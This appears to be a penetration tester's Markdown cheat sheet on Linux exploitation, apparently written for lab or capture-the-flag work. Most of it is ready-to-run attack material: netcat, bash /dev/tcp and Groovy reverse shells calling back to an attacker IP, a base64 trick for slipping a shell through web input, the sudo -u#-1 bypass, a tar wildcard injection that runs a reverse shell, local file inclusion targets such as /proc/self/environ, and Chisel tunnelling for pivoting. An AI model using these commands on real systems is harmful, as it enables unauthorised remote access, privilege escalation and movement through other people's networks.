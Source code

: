 # Linux Exploitation

## Enumerate Linux Machine
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): 
    * `./linpeas.sh | tee enum.txt` 
    * `less -r enum.txt`

## Find Interesting Files
* Find File With uuid Permission
    * `find / -perm /u=s 2>/dev/null`
    * `find / -perm /4000 2>/dev/null`
* Files With Capabilities
    * `getcap -r / 2>/dev/null`


## Generate reverse ncat
* `msfvenom -p cmd/unix/reverse_netcat lhost=10.13.3.36 lport=4444`
    * `mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`
* Bash Reverse Shell
    * `bash -c 'bash -i >& /dev/tcp/10.13.3.36/4444 0>&1'`
    * Create one to send on the web
```bash
$ echo 'bash -i >& /dev/tcp/localhost/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC9sb2NhbGhvc3QvNDQ0NCAwPiYxCg==

# Add spaces to remove the + and =

$ echo 'bash  -i >& /dev/tcp/localhost/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK

# Send this as the payload
$ echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvbG9jYWxob3N0LzQ0NDQgMD4mMSAK | base64 -d | bash
```
* Listener: `nc -klvnp 4444`
    * k - Wait for more connections after completion
    * l - Listen for connection
    * v - Verbose
    * n - Don't do DNS lookup
    * p - Port to listen to

## Reverse Shells

### PHP Reverse Shells
* phpbash (webshell): https://github.com/Arrexel/phpbash
* php-reverse-shell.php : https://github.com/pentestmonkey/php-reverse-shell
* #!/usr/bin/env php

### Groovy Reverse Shell
```groovy
String host="10.13.3.36";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Stabilisation of Shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
```
CTRL-z
```sh
stty raw -echo;fg
```

If the number of rows and column don't match. 

On your machine:
```bash
 stty -a
speed 38400 baud; rows 53; columns 211; line = 0;
```

Then in the reverse shell:
```bash
stty rows 53 cols 211
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


## sudo
* List sudo Permisions
    * `sudo -l`
* Abuse sudo with (ALL, !root)
    * `sudo -u#-1`

## Abuse tar With Wildcard *
```sh
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## Using nc To Transfer Files

On the receiving machine
```bash
nc -l -p 1234 > file
```
On the sending machine, open the connection and send the file.

```bash
nc -w 3 10.13.3.36 1234 < file
```

## Scan for Open Ports With nc
```bash
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```

## Interesting LFI Files

* /etc/passwd - Get the users on the system
* /proc/self/ - Information of the current process, replace self with PID to get other processes
    * /proc/self/cmdline - Command line
    * /proc/self/environ - Environment variables
    * /proc/self/stat - Information of the process, PID, Parrent PID

## Create Tunnel with Chisel

Useful when you have a reverse shell and want to tunnel some traffic without a SSH connection.

Download [Chisel](https://github.com/jpillora/chisel).

### Create a tunnel

Create the reverse server in your machine on port 3477.

```bash
$ ./chisel server -p 3477 --reverse
022/09/09 09:35:29 server: Reverse tunnelling enabled
2022/09/09 09:35:29 server: Fingerprint dzD/Qptfc30MSxvgsDGogRBXv2AcwIQJD2C2S/tsmRM=
2022/09/09 09:35:29 server: Listening on http://0.0.0.0:3477
```

Launched the client in the target machine. This connect to the server on port 3477 and create a tunnel. Any traffic on port 2222 on your machine will be tunneled to the target machine and send to 172.19.0.1 on port 80.

```bash
$ ./chisel client 10.10.14.143:3477 R:2222:172.19.0.1:80/tcp
2022/09/09 13:39:57 client: Connecting to ws://10.10.14.143:3477
2022/09/09 13:39:57 client: Connected (Latency 25.96244ms)
```

Open your browser on http://localhost:2222/ and you will see the site on 172.19.0.1:80.

### Dynamic tunneling

Create the server on your machine.

```bash
$ ./chisel server -p 9312 --reverse 
2022/09/09 10:28:25 server: Reverse tunnelling enabled
2022/09/09 10:28:25 server: Fingerprint fW9TjgADygUXnU2VPbt6aR3Tq0njW7wTa9/MpN8acm0=
2022/09/09 10:28:25 server: Listening on http://0.0.0.0:9312
```

Lauch the client on the target machine, creating a reverse socks tunnel

```bash
$ ./chisel client 10.10.14.143:9312 R:socks
2022/09/09 14:29:49 client: Connecting to ws://10.10.14.143:9312
2022/09/09 14:29:49 client: Connected (Latency 25.930019ms)
```

You should get a connection on your server.

```bash
2022/09/09 10:29:48 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Configure proxychains to for socks5 on port 1080.

> /etc/proxychains4.conf
```
socks5  127.0.0.1 1080
```

Use proxychains to run commands on the target from your machine.

```bash
$ proxychains nmap 172.19.0.1 2>/dev/null
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 10:33 EDT
Nmap scan report for  (172.19.0.1)
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 79.48 seconds
```
